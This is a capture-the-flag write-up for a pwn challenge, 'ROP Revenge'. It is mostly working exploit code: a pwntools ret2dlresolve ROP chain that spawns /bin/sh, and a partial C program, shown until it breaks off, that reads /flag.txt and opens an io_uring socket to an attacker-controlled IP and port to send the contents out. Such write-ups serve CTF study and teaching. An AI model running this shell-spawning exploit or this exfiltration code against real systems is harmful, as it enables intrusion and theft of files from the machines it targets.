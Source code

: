# Pwn
## ROP Revenge (300 points, 13 solves)
This is a easy pwn that if you know the technique of ret2dlresolve, I exploited and got the shell in a few minutes.
```c
context.binary = elf = ELF("./chall")
rop = ROP(context.binary)
dlresolve = Ret2dlresolvePayload(elf,symbol="system",args=["/bin/sh"])

rop.gets(dlresolve.data_addr)
rop.ret2dlresolve(dlresolve)
raw_rop = rop.chain()

payload = flat({120: 0x000000000040101a,128:raw_rop,256:dlresolve.payload})
io.sendline(payload)
sleep(0.2)
io.sendline(dlresolve.payload)
```
However, it closed stdin and stderr which we are not allowed to get the output from the shell.

To address the issue, I used the solution from my created challenge `Disconnect` in Bauhiniactf2023.
https://bott0n.github.io/posts/bauhiniactf2023-author-writeups/#disconnect-500-points--1-solve

Which is upload a binary that would send the flag content to my remote server.
### solve.c
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <liburing.h>

char *ip = "YOUR PUBLIC IP"; //change this
int port = 58888; //change this

int main(int argc , char *argv[])
{
    struct io_uring ring;
    struct io_uring_sqe *sqe;
    struct io_uring_cqe *cqe;
    char message[0x100];
    char flag[0x100];

    memset(message, 0, 0x100);
    memset(flag, 0, 0x100);

    int fd = open("/flag.txt", 0);                      

    read(fd , flag, 0x100);
    write(1, flag, 0x100);

    io_uring_queue_init(1, &ring, 0);
    sqe = io_uring_get_sqe(&ring);
    
    sqe->opcode = IORING_OP_SOCKET;
    sqe->fd = AF_INET;
    sqe->off = SOCK_STREAM;
    sqe->len = 0;			
```